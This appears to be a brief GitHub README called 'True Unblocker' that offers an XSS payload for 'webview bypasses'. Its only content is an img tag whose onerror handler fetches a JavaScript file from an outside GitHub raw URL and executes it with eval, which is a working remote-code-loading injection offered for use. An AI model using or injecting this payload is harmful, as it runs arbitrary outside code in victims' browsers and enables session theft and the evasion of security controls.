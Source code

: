 # True Unblocker
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/7Frost7/frost/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
